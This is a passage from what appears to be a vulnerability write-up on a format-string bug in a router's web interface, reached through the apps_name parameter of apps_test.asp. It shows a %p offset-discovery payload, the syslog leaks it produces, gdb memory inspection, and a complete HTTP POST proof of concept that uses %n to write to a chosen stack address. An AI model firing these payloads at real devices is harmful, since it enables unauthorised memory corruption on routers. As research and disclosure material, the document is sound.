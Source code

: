 (0x41 * 32) + 0x20 + (0x42 * 31) = 64 characters, 63 of which I control, as the application is concatenating the parameters with a space (0x20) and dropping the last bytes when appending the entries to the log. While I do control the initial string, "install", there are only a few values it can be set to in order to hit the vulnerable code paths. Notably however, it also appends a space between "install AAA..."-- as with the space inserted between the As and Bs, this will also have an effect the calculations that are needed later.

This effectively means the amount of data I can possibly write in each request is limited. So I'd need to keep that in mind while designing a payload.

The first step was to create a PoC that could write bytes to somewhere I chose, so I needed to find out if I could reference any values with %p. After a bit of testing, I found the following payload would result in the final "%25p" containing 0x42424242:

```html
apps_action=install&apps_name=AAABBBB%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p&apps_flag=B
```

Here's the syslog output from these attempts, the final entry corresponds to the above payload:
```
Mar  9 11:34:17 rc_service: httpd 24353:notify_rc start_apps_install AAAA(nil)(nil)(nil)0x707474680x343220640x3a3335330x69746f6e0x725f79660x747320630x5f7472610x737070610x736e695f0x6c6c6174 B
Mar  9 11:34:23 rc_service: httpd 24353:notify_rc start_apps_install AAAA(nil)(nil)(nil)0x707474680x343220640x3a3335330x69746f6e0x725f79660x747320630x5f7472610x737070610x736e695f0x6c6c61740x41414120 B
Mar  9 11:34:44 rc_service: httpd 24353:notify_rc start_apps_install AAABBBB(nil)(nil)(nil)0x707474680x343220640x3a3335330x69746f6e0x725f79660x747320630x5f7472610x737070610x736e695f0x6c6c61740x414141200x42424242 B
```

The above three log entries demonstrate the behavior well. Each entry is the result of a request with one more "%25p" appended, until you get to the final entry which corresponds to the payload above. The first two requests were sent with just "AAAA" as initial padding, but notice that while the second entry, sent with an additional "%25p", does seem to reference the "AAAA" as hex, it contains a 0x20 as it's lowest byte. This is due to the application concatenating the parameters into the resulting string with a space. So by changing the "AAAA" to "AAABBBB", then adding one additional "%25p", it was possible to reference the "BBBB" with the fifteenth format string specifier.

Now, the BBBB can be replaced with a memory address, and the 15th "%25p" with a "%25n". This will cause vsnprintf() to write the length of the data sent to vsnprintf to the given address. Looking at /proc/PID/maps there is a lot of RW memory, but I decided to stay in stack land and chose a random unoccupied location as a poc.

```bash
admin@RP-AC1900-4828:/tmp/home/root# cat /proc/10377/maps | grep stack
be856000-be877000 rw-p 00000000 00:00 0          [stack]
[...]
(gdb) x 0xbe8560f0
0xbe8560f0:     0x00000000
(gdb) c
Continuing.
```

Now, here's the write PoC payload:
```html
POST /apps_test.asp HTTP/1.1
Host: 192.168.1.200
Content-Length: 117
[...]
Cookie: clickedItem_tab=0; asus_token=HkH6QMvpbgCA0MXzYyHvzI0FVGs1PXc

apps_action=install&apps_name=AAA%f0%60%85%be%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25p%25n&apps_flag=B
```
